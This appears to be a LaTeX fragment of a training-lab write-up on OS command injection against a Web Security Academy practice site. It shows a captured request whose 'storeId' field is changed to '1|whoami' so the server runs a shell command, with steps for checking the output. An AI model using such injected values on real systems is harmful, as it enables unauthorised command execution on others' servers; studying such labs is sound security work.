 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
\begin{lstlisting}[label={lst:original-request},caption={Original request}]
      productId=1&storeId=1
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1|whoami
      \end{lstlisting}

      \item Forward the modified request to the server.
      \item Inspect the server response for the output of the \texttt{whoami} command.
      \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure2.png}
      \caption{Result of the \texttt{whoami} command}
      \label{fig:whoami-result}
      \end{figure}
      
    \end{enumerate}
\end{description}

\newpage
\end{document}
